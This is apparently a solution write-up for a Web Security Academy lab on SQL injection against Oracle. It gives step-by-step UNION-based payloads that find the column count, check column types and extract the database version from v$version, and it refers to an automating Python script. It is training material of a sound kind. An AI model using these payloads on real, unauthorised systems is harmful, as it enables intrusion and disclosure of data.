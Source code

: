 # SQL Injection Lab 03 - SQL injection attack, querying the database type and version on Oracle

## Manual Solution

1. Access the lab in Web Security Academy
2. Determine the number of columns for UNION attack
3. Use ORDER BY to find column count:
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

4. Verify column data types:
   - Test: `/filter?category=Gifts' UNION SELECT '1', '2'--`
   - Result: Values '1' and '2' displayed (confirms string compatibility)

5. Extract database version:
   - Payload: `/filter?category=Gifts' UNION SELECT NULL,banner FROM v$version--`
   - Result: Database version information displayed


## Automated Solution

1. Download the script
2. Run the script with the following command: python sqli_lab_03.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

